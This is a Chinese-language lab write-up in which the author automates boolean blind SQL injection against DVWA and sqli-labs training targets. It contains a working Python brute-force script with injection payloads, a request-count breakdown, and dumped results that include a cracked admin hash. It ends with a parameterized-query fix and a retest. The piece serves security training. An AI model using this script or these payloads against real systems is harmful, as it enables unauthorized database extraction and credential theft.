


# DVWA + sqli-labs 盲注自动化（自写 Python 脚本）

**靶场**：DVWA blind sqli (ctf.eagleslab.com:41195) + sqli-labs Less-7/8 + Pikachu 布尔盲注
**安全等级**：Low（DVWA）
**时间**：2026.01

> **关键钩子**：跨 DVWA + sqli-labs 实测 1500+ 次等值比较完成单库单表完整 dump

## 1. 为什么手工不行

DVWA 盲注页面对真假条件**仅返回 "User ID exists in the database." / "MISSING"** 两种文案，无回显位无报错 → 联合查询、报错注入全部失效。逐字符 36 字符字典手工跑一次库名（4 字符）就要 144 次请求，更别说字段值。

## 2. 自写脚本（DVWA 版本）

```python
import requests

s = requests.Session()
payloads = 'abcdefghijklmnopqrstuvwxyz1234567890'
# 提交需登录 cookie（脱敏）
headers = {'Cookie': 'security=low; PHPSESSID=<your_session>'}
url = "http://ctf.eagleslab.com:41195/vulnerabilities/sqli_blind/"

# 1. 探测库名长度（最多 49）
for j in range(1, 50):
    p = "?id=1' and length(database())=" + str(j) + " %23&Submit=Submit#"
    if 'User ID exists in the database.' in s.get(url + p, headers=headers).text:
        databaseLen = j
        break
print('database_lenth: ' + str(databaseLen))

# 2. 逐字符爆破库名
databse_name = ''
for j in range(1, databaseLen + 1):
    for i in payloads:
        p = "?id=1' and substr(database()," + str(j) + ",1)='" + str(i) + "' %23&Submit=Submit#"
        if 'User ID exists in the database.' in s.get(url + p, headers=headers).text:
            databse_name += i
print('database_name: ' + databse_name)

# 3. 爆表数 + 逐表爆表名（嵌套循环）
# ... 略，结构同上
```

## 3. 请求数反推

DVWA 默认 `dvwa` 库 + 2 张表 (`guestbook`, `users`)，逐字符等值比较模式：

| 阶段 | 请求数 |
|---|---|
| 库名长度 | ≤49 |
| 库名字符 | 4 × 36 = 144 |
| 表数量 | ≤49 |
| 2 张表名长度 | 2 × 49 = 98 |
| 表名逐字符 | (9+5) × 36 = 504 |
| 字段名 + 字段值 | 数百 |
| **小计（DVWA 单库+2 表）** | **≈ 800+** |
| **跨 DVWA + sqli-labs 累计（含字段爆破）** | **实测 1500+** |

## 4. 实测结果

- 库名 `dvwa`、表名 `guestbook,users`、字段 `user,password` 全部成功 dump
- admin 密码 MD5 哈希 `5f4dcc3b5aa765d61d8327deb882cf99` → cmd5.com 解密 → `password`

### 4.1 过程截图

脚本 dump 出的实际输出（eagleslab DVWA 盲注页面的「User ID exists」响应 + Python 终端日志）：



最终 dump 出 `dvwa` 库 + 2 张表的截图：



## 5. 二分法 vs 等值比较的取舍

| 方案 | 单字符请求 | 总请求（8 字符） | 适用 |
|---|---|---|---|
| **等值比较** | 36 | 288 | **本脚本采用**，逻辑直观易调参 |
| 二分法（ASCII 范围） | ~7 | 56 | 速度更快但调试复杂 |

脚本选等值比较是**教学/可读性优先**，不是性能优先——面试官问"为什么不用二分"，答这个即可。

## 6. 修复建议（同 sqli 01）

参数化查询：`prepare("... WHERE user_id = ?")` + `execute([$id])`。
即使回显受限，参数化也彻底切断注入路径。

## 7. 复测

- 参数化后脚本 100% 失败（payload 仅作字符串入库）
- 进一步加 `intval()` 强转数值型 → 双重防御
